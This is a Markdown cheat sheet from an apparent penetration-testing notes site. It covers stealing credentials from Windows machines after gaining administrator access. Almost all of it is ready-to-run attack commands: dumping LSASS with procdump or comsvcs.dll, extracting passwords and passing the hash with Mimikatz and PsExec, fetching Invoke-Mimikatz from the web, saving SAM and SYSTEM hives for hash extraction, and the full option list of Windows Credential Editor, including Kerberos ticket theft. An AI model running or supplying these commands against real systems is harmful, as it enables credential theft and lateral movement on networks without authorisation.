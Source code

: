 ```yaml
---
layout: default
title: Windows Post-Admin
parent: Post-Admin/Root
---
```


# Windows Post-Admin
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Manual Checks
### Is Credential Guard Enabled?
Windows Defender Credential Guard prohibits dumping of LSASS
```powershell
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```
- Check `SecurityServicesConfigured` and `SecurityServicesRunning` are set to `1`

## Mimikatz
### Offline
Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

Extract Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

### On Target Machine
Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```

### On Target Machine (PowerShell Version) 
Get script onto target machine ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose                               # In-memory
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose  # Save to disk
```

Extact passwords, etc.
```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

---

## Registry Dump
Dump SAM, SECURITY and SYSTEM registry hives
```powershell
reg.exe save hklm\sam <output path>
reg.exe save hklm\security <output path>
reg.exe save hklm\system <output path>
```

Dump hashes on local machine
```shell
secretsdump.py -sam <sam> -security <security> -system <system> LOCAL  # Impacket
samdump2 <system> <sam>
```

## FGDump/PWDump
Dump hashes from `lsass` on the target machine
```shell
fgdump.exe
python pydump.py
pwdump7.exe
```

## Windows Credential Editor (WCE)
```shell
wce{32|64}.exe -l             # List current sessions & NTLM creds (default)
wce{32|64}.exe -r             # List current sessions & NTLM creds indefinitely
wce{32|64}.exe -e             # List current sessions & NTLM creds every time a logon event occurs
wce{32|64}.exe -s <NTLM>      # Change NTLM creds of current session
wce{32|64}.exe -c <NTLM>      # Run in new session with specified NTLM creds
wce{32|64}.exe -i <LUID>      # Specify LUID to use for current session
wce{32|64}.exe -d             # Delete NTLM creds from current session
wce{32|64}.exe -a <addresses> # Use addresses to read sessions and NTLM creds from memory (from GETLSASRVADDR.EXE)
wce{32|64}.exe -f             # Force 'safe mode'
wce{32|64}.exe -g             # Generate LM & NT hash
wce{32|64}.exe -K             # Dump Kerberos tickets to file
wce{32|64}.exe -k             # Read Kerberos tickets from file and insert into Windows cache
wce{32|64}.exe -w             # Dumps plaintext passwords
```
- `-o <file>` outputs to file
- <https://github.com/returnvar/wce>